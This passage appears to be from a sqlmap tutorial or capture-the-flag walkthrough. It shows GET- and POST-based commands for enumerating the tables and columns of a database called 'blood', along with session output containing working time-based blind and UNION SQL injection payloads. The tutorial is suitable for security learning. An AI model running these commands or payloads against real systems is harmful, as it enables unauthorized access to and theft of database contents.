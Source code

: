 Now that we have the databases, let's extract tables from the database **blood**.

**Using GET based Method** 
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables` 

`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**Using POST based Method**
**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`  

`sqlmap -r req.txt -p blood_group -D blood --tables`

Getting Tables
```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

Once we have available tables, now let’s gather the columns from the table `blood_db`.

 
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`  

`sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**Using POST based Method**
`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`  
